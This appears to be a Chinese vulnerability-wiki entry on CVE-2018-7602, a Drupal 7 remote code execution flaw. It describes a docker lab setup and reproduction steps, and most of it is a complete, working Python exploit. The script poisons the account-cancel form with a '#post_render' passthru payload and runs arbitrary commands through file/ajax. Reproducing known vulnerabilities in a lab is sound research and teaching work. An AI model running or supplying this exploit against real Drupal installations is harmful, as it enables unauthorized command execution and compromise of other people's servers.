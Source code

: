 （CVE-2018-7602）Drupal 远程代码执行漏洞
========================================

一、漏洞简介
------------

Drupal
7.x版本和8.x版本中的存在存在远程代码执行漏洞。远程攻击者可利用该中断执行任意代码。

二、漏洞影响
------------

Drupal 7.x版本和8.x

三、复现过程
------------

### 漏洞环境

执行如下命令启动drupal 7.57的环境：

    docker-compose up -d

环境启动后，访问 `http://your-ip:8081/`
将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

参考[ianxtianxt/CVE-2018-7602](https://github.com/ianxtianxt/CVE-2018-7600)的PoC。

如下图所示，执行以下命令即可复现该漏洞。示例命令为
`id`，如图红框中显示，可以执行该命令。

    # "id"为要执行的命令 第一个drupal为用户名 第二个drupal为密码
    python3 drupa7-CVE-2018-7602.py -c "id" drupal drupal http://127.0.0.1:8081/

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-7602)Drupal远程代码执行漏洞/media/rId27.png)

### CVE-2018-7602.py

    #!/usr/bin/env python3

    import requests
    import argparse
    from bs4 import BeautifulSoup

    def get_args():
      parser = argparse.ArgumentParser( prog="drupa7-CVE-2018-7602.py",
                        formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=50),
                        epilog= '''
                        This script will exploit the (CVE-2018-7602) vulnerability in Drupal 7 <= 7.58
                        using an valid account and poisoning the cancel account form (user_cancel_confirm_form) 
                        with the 'destination' variable and triggering it with the upload file via ajax (/file/ajax).
                        ''')

      parser.add_argument("user", help="Username")
      parser.add_argument("password", help="Password")
      parser.add_argument("target", help="URL of target Drupal site (ex: http://target.com/)")
      parser.add_argument("-c", "--command", default="id", help="Command to execute (default = id)")
      parser.add_argument("-f", "--function", default="passthru", help="Function to use as attack vector (default = passthru)")
      parser.add_argument("-x", "--proxy", default="", help="Configure a proxy in the format http://127.0.0.1:8080/ (default = none)")
      args = parser.parse_args()
      return args

    def pwn_target(target, username, password, function, command, proxy):
      requests.packages.urllib3.disable_warnings()
      session = requests.Session()
      proxyConf = {'http': proxy, 'https': proxy}
      try:
        print('[*] Creating a session using the provided credential...')
        get_params = {'q':'user/login'}
        post_params = {'form_id':'user_login', 'name': username, 'pass' : password, 'op':'Log in'}
        print('[*] Finding User ID...')
        session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
        get_params = {'q':'user'}
        r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
        soup = BeautifulSoup(r.text, "html.parser")
        user_id = soup.find('meta', {'property': 'foaf:name'}).get('about')
        if ("?q=" in user_id):
          user_id = user_id.split("=")[1]
        if(user_id):
          print('[*] User ID found: ' + user_id)
        print('[*] Poisoning a form using \'destination\' and including it in cache.')
        get_params = {'q': user_id + '/cancel'}
        r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
        soup = BeautifulSoup(r.text, "html.parser")
        form = soup.find('form', {'id': 'user-cancel-confirm-form'})
        form_token = form.find('input', {'name': 'form_token'}).get('value')
        get_params = {'q': user_id + '/cancel', 'destination' : user_id +'/cancel?q[%23post_render][]=' + function + '&q[%23type]=markup&q[%23markup]=' + command }
        post_params = {'form_id':'user_cancel_confirm_form','form_token': form_token, '_triggering_element_name':'form_id', 'op':'Cancel account'}
        r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
        soup = BeautifulSoup(r.text, "html.parser")
        form = soup.find('form', {'id': 'user-cancel-confirm-form'})
        form_build_id = form.find('input', {'name': 'form_build_id'}).get('value')
        if form_build_id:
            print('[*] Poisoned form ID: ' + form_build_id)
            print('[*] Triggering exploit to execute: ' + command)
            get_params = {'q':'file/ajax/actions/cancel/#options/path/' + form_build_id}
            post_params = {'form_build_id':form_build_id}
            r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
            parsed_result = r.text.split('[{"command":"settings"')[0]
            print(parsed_result)
      except:
        print("ERROR: Something went wrong.")
        raise

    def main():
      print ()
      print ('===================================================================================')
      print ('|   DRUPAL 7 <= 7.58 REMOTE CODE EXECUTION (SA-CORE-2018-004 / CVE-2018-7602)     |')
      print ('|                                   by pimps                                      |')
      print ('===================================================================================\n')

      args = get_args() # get the cl args
      pwn_target(args.target.strip(),args.user.strip(),args.password.strip(), args.function.strip(), args.command.strip(), args.proxy.strip())


    if __name__ == '__main__':
      main()

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2018-7602/
